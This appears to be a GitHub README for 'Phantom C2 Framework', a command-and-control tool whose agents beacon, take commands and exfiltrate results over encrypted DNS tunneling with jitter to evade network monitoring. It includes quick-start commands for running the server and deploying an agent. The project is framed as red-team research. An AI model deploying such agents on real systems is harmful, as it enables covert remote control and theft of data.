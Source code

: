 # Phantom C2 Framework

A lightweight, custom command and control (C2) framework designed for security research and understanding advanced adversary tradecraft. Implements DNS tunneling as a covert channel to bypass traditional network monitoring.

**Disclaimer: This project is for educational and authorized security research only.**

## Features

- **Covert DNS Tunneling**: Agents communicate via encrypted DNS queries and TXT records
- **AES-256 Encryption**: All C2 communications are securely encrypted
- **Configurable Jitter**: Randomizes beacon timing to evade detection
- **Cross-Platform Agents**: Python-based agents for Windows, Linux, and macOS
- **Modular Design**: Easy to extend with new transport methods

## Architecture

[Phantom Agent] <--DNS Tunnel--> [C2 Server] <--Web Interface--> [Operator]
│ │
├── Beaconing ├── Agent Management
├── Task Execution ├── Task Queue
└── Result Exfiltration └── Data Collection


### Protocol Overview
1. **Beaconing**: Agents periodically send DNS queries to subdomains of a controlled domain
2. **Tasking**: Commands are encoded in DNS TXT records
3. **Execution**: Agents parse and execute received commands
4. **Exfiltration**: Results are chunked and sent back via subsequent DNS queries

## Quick Start

### Prerequisites
- Python 3.8+
- A domain name with DNS control
- `dnspython` library

### Installation
```bash
git clone https://github.com/yourusername/phantom-c2-framework
cd phantom-c2-framework
pip install -r server/requirements.txt
```

### Server Setup
```bash
cd server
python c2_server.py --domain your-controlled-domain.com
```

### Agent Deployment
```bash
from agent.phantom_agent import PhantomAgent
agent = PhantomAgent(server_domain="your-controlled-domain.com")
agent.start()
```
